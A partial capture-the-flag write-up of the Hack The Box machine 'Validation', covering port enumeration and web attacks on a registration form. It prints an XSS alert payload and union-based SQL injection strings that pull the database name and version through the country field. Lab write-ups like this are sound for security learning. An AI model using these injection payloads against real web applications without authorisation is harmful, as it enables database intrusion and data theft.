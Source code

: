 # Validation HacktheBox

**ENUMERATION**

**NMAP**

![image](https://user-images.githubusercontent.com/79543461/177142512-ca4b0e81-c4bd-4cae-a65e-6dc6976a7242.png)

**Port 80**

![image](https://user-images.githubusercontent.com/79543461/177142701-0be496f1-60ba-4fed-871d-836ca8352fb7.png)

**Port 4566**

![image](https://user-images.githubusercontent.com/79543461/177142777-127ce58a-10c2-4d35-99cd-904be4e79abd.png)

**Port 8080**

![image](https://user-images.githubusercontent.com/79543461/177142844-5600bb65-4f47-4ae9-8d4c-e20eaca2a966.png)

I enumerate Port 80:

![image](https://user-images.githubusercontent.com/79543461/177143065-83faf0c0-e186-40e3-aac5-4011e709f972.png)

**First Attack Vectors**

The index page of this web it's a form to qualify for something called September UHC, let's try to inject code SQL,XSS,HTML and more.

**XSS**

Payload: <script>alert("SS")</script>

![image](https://user-images.githubusercontent.com/79543461/177160817-3203a467-57bd-4bb6-ab4a-50d45508fc1c.png)

**It's Vulnerable to XSS and HTML Injection, but i can't do anything**

**SQLI**

**BurpSuite**

Payload: ' order by 10000-- - == **NO WORK**

Payload: ' union select 1-- - == **NO WORK**

**Country Field**

Let's try to do this payloads with other field from request.

Payload: ' union select 1-- - == **WORKS!!!!!**

![image](https://user-images.githubusercontent.com/79543461/177161840-7352bb95-c77b-451d-9b9f-8d3d785baed2.png)

![image](https://user-images.githubusercontent.com/79543461/177162100-a0e026a4-6b8d-4f35-b056-161b90c9238e.png)

Let's go to enumerate Things.

**Database**

Payload: ' union select database()-- -

![image](https://user-images.githubusercontent.com/79543461/177163576-b903824d-3109-4143-b421-39d210096c0e.png)

**Version**

Payload: ' union select @@version-- -

![image](https://user-images.githubusercontent.com/79543461/177164063-41a93070-b0fc-4cfc-8592-f87ac3f97f96.png)


